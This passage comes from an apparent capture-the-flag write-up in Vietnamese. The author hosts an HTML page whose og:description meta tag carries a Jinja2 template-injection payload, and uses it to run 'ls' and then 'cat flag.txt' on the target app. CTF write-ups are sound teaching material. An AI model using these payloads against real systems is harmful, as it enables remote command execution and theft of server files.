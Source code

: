 ```html
<!doctype html>
<html>
<head> 
  <meta property="og:description" content="{{ cycler.__init__.__globals__['os'].popen('ls').read() }}"> 
  <title>x</title> 
</head>
<body>ok</body>
</html>
```

Tiếp theo tôi dùng Vercel để deloy và fetch URL này. Kết quả hiển thị trên ứng dụng là danh sách file trong thư mục ứng dụng

![alt text](image-8.png)

Tôi đã thấy file `flag.txt` và tiếp tục truy vấn để đọc file flag

```html
<!doctype html>
<html>
<head> 
  <meta property="og:description" content="{{ cycler.__init__.__globals__['os'].popen('cat flag.txt').read() }}"> 
  <title>x</title> 
</head>
<body>ok</body>
</html>
```
